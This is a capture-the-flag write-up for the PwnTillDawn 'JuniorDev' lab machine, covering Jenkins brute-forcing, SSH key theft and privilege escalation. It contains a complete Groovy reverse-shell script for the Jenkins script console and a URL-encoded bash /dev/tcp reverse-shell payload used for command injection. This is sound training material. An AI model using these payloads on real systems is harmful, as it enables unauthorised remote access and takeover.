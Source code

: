 # 10.150.150.38 ( JUNIORDEV )- PWNTILLDAWN WRITEUP

The following ports were found using rustscan

![](images/rustscan_results.png)
----

I served the ports to nmap and got found a http site

![](images/nmap_results.png)
---
It was a jekins login page.  
I tried the usual default login pairs but none worked.

![](images/jekins_failed_default.png)
---
After some digging I decided to use hydra to bruteforce it

![](images/hydra_command.png)
---
We got a hit!

![](images/hydra_success.png)
---
I inputed the details and we have a dashboard now.

![](images/jekins_dashboard.png)
---
Looked around and found a flag under the `people` tab

![](images/people.png)
---
Looked around a bit more and found out i could run scripts here. Found a walkthrough on how to get a shell using "Jekins Groovy Scirpt" here: `https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6`  

---
I pasted the code into the groovy scripts input box 

```
String host="ip";
int port="port";
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```
---
Then started a netcat listener and ran the script

![alt text](images/shell.png)
---

Found another Flag

![alt text](images/flag70.png)
---
Ran Linpeas but no dice, looked around and found another user `juniordev`, the user has a `.ssh` folder but i cannot `-ls -la` the folder due to permission issues

![](images/junirdevlsla.png)
---
But funny enough I can `cat` out it's presumed contents:

![](images/cat.png)
---
Copy paste and ssh into junior dev and voila we are juniordev

![alt text](images/jdevterminal.png)
---
Ran `Linpeas` again, no dice. Tried some suggested exploits, nothing. Looked a bit close and found something, a port that didn't show up during recon.

![](images/ports.png)
--
Looked into it a bit more with `pspy`

![image of pspy](images/pspy.png)
--
Used ssh local port forwarding to open the local page:  
`ssh -L 8080:127.0.0.1:8080 juniordev@10.150.150.38 -i id_rsa -fN`   
and open my local page, we have a page now.

![alt text](images/pypage.png)

It looks like a simple additiion page created in python.  
There might be a chance to do some command injection.  

---  
There is.

`%2Fbin%2Fbash+-i+>%26+%2Fdev%2Ftcp%2F10.66.67.138%2F4444+0>%261`

![](images/burp.png)
![](images/root.png)

Found a flag, alongside an image that could be a flag, Transferred it and took a look at the pic.  

---

Found a way to transfer it here `https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65`  

Got the image, opened it, got the flag and we're Done.  

![](images/final.png)

